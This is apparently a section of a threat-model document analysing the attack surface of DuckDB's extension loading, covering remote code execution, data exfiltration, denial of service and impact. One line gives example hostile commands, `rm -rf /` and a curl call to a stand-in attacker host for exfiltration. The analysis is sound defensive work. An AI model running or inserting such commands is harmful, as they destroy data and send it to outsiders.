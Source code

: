 #### 4.1. Detailed Breakdown of the Attack Surface

The core of this attack surface lies in the inherent trust placed in the code loaded as extensions. When DuckDB loads an extension, it essentially executes arbitrary code within its own process. This creates a direct pathway for malicious actors to compromise the database and potentially the underlying system.

**Key Components of the Attack Surface:**

* **Extension Loading Mechanism:** The `LOAD` statement in DuckDB is the primary entry point for this attack surface. The ability to specify a file path for the extension library grants significant power to users.
* **Extension API:** The API provided by DuckDB for extensions defines the interaction between the core database and the extension code. Vulnerabilities in this API or its implementation could be exploited by malicious extensions.
* **Lack of Sandboxing (as noted in mitigations):**  The current architecture likely lacks robust sandboxing or isolation for extensions. This means a compromised extension has access to the same resources and privileges as the DuckDB process itself.
* **Dependency Management (Implicit):**  Extensions may have their own dependencies. If these dependencies are not managed securely or are themselves vulnerable, they can introduce further risks.
* **User Behavior:**  The success of this attack surface often relies on user actions, such as being tricked into loading a malicious extension.

#### 4.2. Potential Vulnerabilities and Attack Vectors

Based on the nature of extension mechanisms, several potential vulnerabilities and attack vectors can be identified:

* **Remote Code Execution (RCE):** This is the most critical risk. A malicious extension can directly execute arbitrary commands on the server where DuckDB is running. This could involve:
    * **Shell command execution:** Using system calls to execute commands like `rm -rf /` or `curl attacker.com/exfiltrate`.
    * **Memory manipulation:** Directly manipulating the memory space of the DuckDB process to inject code or alter data.
    * **File system access:** Reading, writing, or deleting arbitrary files on the system.
* **Data Exfiltration:** Malicious extensions can access and transmit sensitive data stored within the DuckDB database or even other files on the system.
* **Denial of Service (DoS):** A poorly written or intentionally malicious extension could consume excessive resources (CPU, memory, disk I/O), leading to a denial of service for the DuckDB instance.
* **Privilege Escalation:** If the DuckDB process runs with elevated privileges, a compromised extension could leverage these privileges to gain further access to the system.
* **Functionality Hijacking:** A malicious extension could overwrite or interfere with the functionality of legitimate DuckDB features or other extensions.
* **Backdoors and Persistence:**  A malicious extension could install backdoors or establish persistence mechanisms to maintain access to the system even after the extension is seemingly unloaded.
* **Exploiting Vulnerabilities in Legitimate Extensions:** Even if an extension is not intentionally malicious, it might contain security vulnerabilities (e.g., buffer overflows, integer overflows, format string bugs) that could be exploited by attackers.

#### 4.3. Impact Assessment

The impact of successfully exploiting this attack surface can be severe:

* **Confidentiality Breach:** Sensitive data stored in the database can be accessed and exfiltrated.
* **Integrity Compromise:** Data within the database can be modified or corrupted.
* **Availability Disruption:** The DuckDB instance or even the entire system can be rendered unavailable due to DoS attacks or system compromise.
* **Reputational Damage:** If a data breach or security incident occurs due to a malicious extension, it can severely damage the reputation of the application and the organization using it.
* **Legal and Regulatory Consequences:** Data breaches can lead to legal and regulatory penalties, especially if sensitive personal data is involved.
* **Supply Chain Risks:** If a seemingly legitimate but compromised extension is used, it introduces a supply chain risk that can be difficult to detect.
